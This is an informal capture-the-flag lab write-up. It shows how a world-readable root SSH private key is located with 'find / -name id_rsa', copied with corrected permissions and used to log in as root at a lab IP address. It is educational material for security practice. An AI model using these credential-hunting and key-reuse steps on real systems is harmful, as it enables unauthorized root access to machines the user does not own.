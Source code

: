 # SSH

start to find `id_rsa`which this file use to authenticate user without password

```bash
find / -name id_rsa 2>/dev/null
```

![image.png](<../../../.gitbook/assets/image (16).png>)

then display this privilege of this file

{% code fullWidth="false" %}
```bash
ls -las 
4 -rwxrwxrwx 1 root root 2590 Jun 17  2020 id_rsa
```
{% endcode %}

to use `id_rsa`file u must change this privilege with the **correct privilege 400 or 600**

in this lab i couldn’t change this privilege direct so i take this key and add it in a new file and start to edit this file

```bash
ssh -i id_rsa root@10.10.195.72
```
